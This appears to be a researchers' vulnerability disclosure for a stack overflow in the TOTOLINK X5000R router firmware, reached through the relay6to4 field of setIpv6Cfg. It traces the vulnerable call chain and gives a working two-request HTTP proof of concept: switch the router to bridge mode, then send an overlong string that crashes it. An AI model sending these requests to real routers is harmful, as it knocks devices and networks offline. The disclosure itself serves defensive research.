




# TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:X5000R

Version:X5000R_Firmware(V9.1.0u.6118_B20201102)

Type:Stack Overflow

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn


## Vulnerability description

We found an stack overflow vulnerability in TOTOLINK Technology router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `cstecgi.cgi` binary:

In `setIpv6Cfg` function, `relay6to4` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow,so we can control the `relay6to4` to crash the server.

The input has not been checked.And then,call the function nvram_set to store this input.

<div  align="center"></div>

In `rc` binary:

Eventually, the initial input will be extracted and cause the stack overflow.

<div  align="center"></div>

As you can see here,The length of the input array(v24) is only 48 bytes and The length of the array(v25) is only 52, we can tamper with the content of the `relay6to4` field, such as a very long string.After that, it will cause the function return address to be overwritten.

<div  align="center"></div>


But!It is not such a simple operation that can crash the router.The sequence of function calls that caused the vulnerability to be triggered:	

`full_restart_ipv6`->`full_restart_wan`->`start_wan`->`wan6_up`->`sub_4385B4(vuln func)`

As you can see,There is a conditional judgment in the first step:need to set the router mode to bridge.

<div  align="center"></div>

**Therefore, the complete step to trigger the vulnerability is to first set the router mode to bridge by sending a data packet, and then send a malformed data packet(relay6to4 field).**

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. 


## PoC

We set the router mode to bridge, such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 329
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/opmode.html?time=1639968444503
Cookie: SESSION_ID=2:1420070639:2

{"ssid":"TOTOLINK_X5000R","key":"","channel":"0","band":"16","bw":"2","countryCode":"US","hssid":"0","wifiOff":"0","wpaMode":"1","ssid_5g":"TOTOLINK_X5000R_5G","key_5g":"","channel_5g":"149","band_5g":"17","bw_5g":"3","countryCode_5g":"US","hssid_5g":"0","wifiOff_5g":"0","wpaMode_5g":"1","opmode":"br","topicurl":"setOpModeCfg"}
```

Then, we set `relay6to4` as **aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa....** , and the router will crash, such as:
```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 866
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/advance/ipv6.html?time=1639967398362
Cookie: SESSION_ID=2:1420070429:2

{"dns1":"2001:4860:4860:0:0:0:0:8888","dns2":"","dns3":"","lanRadvFake":"1","lanDhcp":"1","relay6to4":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","sitMtu":"1280","sitTtl":"64","service":"6to4","topicurl":"setIpv6Cfg"}
```


## Result

The target router crashes and cannot provide services correctly and persistently.
